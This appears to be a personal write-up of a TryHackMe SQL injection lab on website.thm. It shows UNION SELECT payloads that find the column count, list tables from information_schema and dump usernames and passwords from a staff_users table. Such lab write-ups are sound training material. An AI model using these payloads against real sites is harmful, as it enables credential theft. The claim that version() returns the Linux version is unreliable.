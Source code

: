 # Determining the number of columns

This is a practice from THM, where we have to determine the number of columns in this website:

<mark style="background-color:orange;">website.thm/article?id=1</mark>

We start with just a ' symbol, if it returns an error it means we could interact with SQL

<figure><img src="../../.gitbook/assets/sql-1 (1) (1).png" alt=""><figcaption></figcaption></figure>

Then, in order to be able to generate commands we first need to detect the number of colums it could be done with the following query:

<mark style="background-color:orange;">UNION select 1,2,3,N (Until it not returns an error)</mark>

<figure><img src="../../.gitbook/assets/sql-22.png" alt=""><figcaption></figcaption></figure>

Once we detect the number of columns, we could start to try to generate the output to the screen to do it, just try to move to ARTICLE 0, and add some SQL commands like "user()" to verify who is running or this ones:

version()= Obtain linux version.

database() = Obtain DB name.&#x20;

The next movement is to determine the number of tables available for this just put the following command:\
<mark style="color:green;background-color:orange;">UNION SELECT 1,2,group\_concat(table\_name) FROM information\_schema.tables WHERE table\_schema = 'sqli\_one'</mark>

Remember: We have obtain the database name from the command database()

<figure><img src="../../.gitbook/assets/sql-11.png" alt=""><figcaption></figcaption></figure>

Now, we have to find some credentials, it could be possible its inside "staff\_users" table, let's type the following command to obtain the columns available

<figure><img src="../../.gitbook/assets/sql-222.png" alt=""><figcaption></figcaption></figure>



Now to obtain the data from username and password use this syntax:

0 UNION SELECT 1,2,group\_concat(username,':',password SEPARATOR '\<br>') FROM staff\_users

test line:

0 UNION SELECT 1,2,group\_concat(username,':',password,':',id SEPARATOR '\<br>') FROM staff\_users

<figure><img src="../../.gitbook/assets/sql-3333.png" alt=""><figcaption></figcaption></figure>
